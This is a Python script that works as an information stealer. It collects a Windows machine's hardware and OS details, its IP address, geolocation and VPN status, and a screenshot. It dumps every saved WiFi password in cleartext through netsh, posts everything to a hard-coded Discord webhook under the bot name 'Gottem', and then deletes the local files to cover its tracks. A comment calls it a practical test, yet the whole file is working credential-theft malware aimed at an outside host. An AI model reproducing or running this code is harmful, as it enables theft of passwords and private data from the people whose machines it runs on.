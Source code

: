 import time
import requests
import socket
import platform
import pyautogui
import subprocess
import os
import psutil

# Webhook temporário para prova prática
webhook = 'https://discord.com/api/webhooks/1393709097978953888/EMm32ITzOxT4OdyiscqB9ydqoz4GOZxIS0roxZ51TiibpmzGNorHnIrZ3oA_RPQ9VQ7u'

# Get hardware information
cpu = subprocess.check_output('wmic cpu get name', shell=True).decode(errors='ignore').split('\n')[1].strip()
gpu = subprocess.check_output('wmic path win32_VideoController get name', shell=True).decode(errors='ignore').split('\n')[1].strip()
motherboard = subprocess.check_output('wmic baseboard get product', shell=True).decode(errors='ignore').split('\n')[1].strip()
ram = str(round(psutil.virtual_memory().total / (1024.0 **3))) + " GB"
storage = str(round(psutil.disk_usage('/').total / (1024.0 **3))) + " GB"

# Get the user's IP address
ip = requests.get('https://api.my-ip.io/ip').text.strip()

# Check if IP is VPN using proxycheck.io
response = requests.get(f'https://proxycheck.io/v2/{ip}?vpn=1')
ipdata = response.json()
other = str(ipdata.get(ip, {}))

# Save IP details
with open('ip.txt', 'w') as f:
    f.write(other)

# Get geolocation info
geo_response = requests.get(f'http://ip-api.com/json/{ip}')
vpndata = geo_response.json()
country = vpndata.get('country', 'Unknown')
city = vpndata.get('city', 'Unknown')
isp = vpndata.get('isp', 'Unknown')
lat = str(vpndata.get('lat', 'Unknown'))
lon = str(vpndata.get('lon', 'Unknown'))

# Get system info
hostname = socket.gethostname()
platformos = platform.system()
release = platform.release()
version = platform.version()

# Take screenshot
screenshot = pyautogui.screenshot()
screenshot.save('screenshot.png')

# Extract WiFi passwords
wifi_data = subprocess.check_output(['netsh', 'wlan', 'show', 'profiles'], shell=True).decode(errors='ignore').split('\n')
profiles = [line.split(":")[1].strip() for line in wifi_data if "All User Profile" in line]
with open('wifi.txt', 'w') as f:
    for profile in profiles:
        try:
            results = subprocess.check_output(['netsh', 'wlan', 'show', 'profile', profile, 'key=clear'], shell=True).decode(errors='ignore').split('\n')
            password_line = [line for line in results if "Key Content" in line]
            password = password_line[0].split(":")[1].strip() if password_line else "NO PASSWORD FOUND"
            f.write(f"{profile:<30}|  {password}\n")
        except Exception:
            f.write(f"{profile:<30}|  ERROR\n")

# Send collected info via webhook
def send_webhook(data, file=None):
    if file:
        with open(file, 'rb') as f:
            requests.post(webhook, data=data, files={'file': f})
    else:
        requests.post(webhook, json=data)

# Embed data
embed_base = {
    "username": "Gottem",
    "avatar_url": "https://i.pinimg.com/474x/c9/65/05/c965055e5101140eba23785b04c2822d.jpg"
}

embeds = [
    {
        "title": "System Info",
        "color": 65280,
        "fields": [
            {"name": "Hostname", "value": hostname},
            {"name": "OS", "value": f"{platformos} {release} ({version})"},
            {"name": "CPU", "value": cpu},
            {"name": "GPU", "value": gpu},
            {"name": "Motherboard", "value": motherboard},
            {"name": "RAM", "value": ram},
            {"name": "Storage", "value": storage}
        ]
    },
    {
        "title": "Network Info",
        "color": 65280,
        "fields": [
            {"name": "IP Address", "value": ip},
            {"name": "Country", "value": country},
            {"name": "City", "value": city},
            {"name": "ISP", "value": isp},
            {"name": "Latitude", "value": lat},
            {"name": "Longitude", "value": lon}
        ]
    }
]

# Send embeds
for embed in embeds:
    payload = embed_base.copy()
    payload['embeds'] = [embed]
    send_webhook(payload)
    time.sleep(1)

# Send files
for file_name in ['screenshot.png', 'ip.txt', 'wifi.txt']:
    send_webhook(embed_base, file=file_name)
    time.sleep(1)
    os.remove(file_name)
